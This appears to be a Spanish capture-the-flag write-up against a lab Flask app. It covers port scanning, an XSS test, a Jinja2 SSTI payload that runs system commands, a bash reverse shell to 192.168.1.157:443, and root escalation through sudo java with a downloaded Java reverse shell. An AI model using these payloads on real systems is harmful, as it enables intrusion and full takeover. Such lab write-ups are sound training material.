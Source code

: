 # Info
## IP Víctima
```
172.17.0.2
```

# Writeup
## Reconocimiento
### Escaneo de puertos
En primer lugar, como siempre, lanzamos un escaneo de puertos para identificar los servicios abiertos en sus respectivos puertos:
```shell
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 18:02 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000089s latency).
Not shown: 65535 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-title: Pingu Flask Web
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
```
Nos encontramos con un servidor HTTP corriendo en el puerto 5000 sobre Werkzeug 3.0.1 y Python 3.12.3, del escaneo nada más salta a la vista, así que vamos a echarle un vistazo a la página web. Nos encontramos con un formulario de registro que pide los siguientes campos: nombre, cumpleaños, email y teléfono.
![Screenshot](./Screenshot_2025-09-01_18_12_24.png)
El único campo que hace algún cambio relevante es el de nombre, al clicar en Save te redirige a /greet, donde leemos un mensaje que lee Hola *nombre que hemos puesto en el campo*! 
Con esta información lo que podríamos probar es distintos payloads de XSS o SQLi, mientras tanto dejaré fuzzing trabajando a ver si encuentra alguna ruta interesante.
## Explotación
#### XSS
Con tan solo probar el segundo payload ya vemos que el formulario es efectivamente vulnerable a XSS, al probar esto `<script>alert(1)</script>` en el campo del nombre, nos salta una alerta del navegador, confirmando la vulnerabilidad.
Además, el FFUF ha dado con la ruta /console, pero al tratar de acceder a ella nos solicita un PIN que no tenemos.
![Screenshot](./Screenshot_2025-09-01_18_25_37.png)
#### SSTI
Después de leer y probar un rato distintas cosas con XSS, finalmente obtengo un error probando payloads de SSTI. Hago las pruebas correspondientes siguiendo las instrucciones de [PayLoadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection): 
1. Ponemos en el input que sospechamos vulnerable un payload comodín que hace saltar un error en la mayoría de ocasiones en casi cualquier template engine. `${{>%[%'"}}%\. ` 
2. Probamos distintos payloads con el fin de obtener el template engine que está corriendo en el servidor web, en este caso, ya con el primer payload `{{7*7}}` sabemos que es Jinja2
3. Con esa información en mente, podemos, con esta línea, ejecutar un comando a nivel de sistema `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`
4. Una vez esa línea nos devuelve el siguiente output *Hello uid=1001(pinguinazo) gid=1001(pinguinazo) groups=1001(pinguinazo),100(users) !* podemos ir a por la reverse shell introduciendo este payload:
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'bash -i >& /dev/tcp/192.168.1.157/443 0>&1'").read() }}
```

## Post explotación
#### Escalada de privilegios
Al lanzar sudo -l, vemos que el usuario puede ejecutar el binario java con permisos root
```bash
pinguinazo@29a22f0dc193:~/flask_ssti_lab$ sudo -l
sudo -l
Matching Defaults entries for pinguinazo on 29a22f0dc193:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on 29a22f0dc193:
    (ALL) NOPASSWD: /usr/bin/java
```
Ya que en GTFObins no encuentro nada, voy directo a RevShells, de donde saco una reverse shell de java. Desde mi máquina levanto un servidor HTTP con `python3 -m http.sever` y con curl lo descargo desde la otra revshell activa, una vez la shell esta instalada, me pongo en escucha en una nueva terminal y ejecuto el comando como root: `sudo /usr/bin/java rev.java`, cuando tabulo hacia mi otra consola, veo que ya soy root.
```
root@29a22f0dc193:/home/pinguinazo/flask_ssti_lab# whoami
whoami
root
```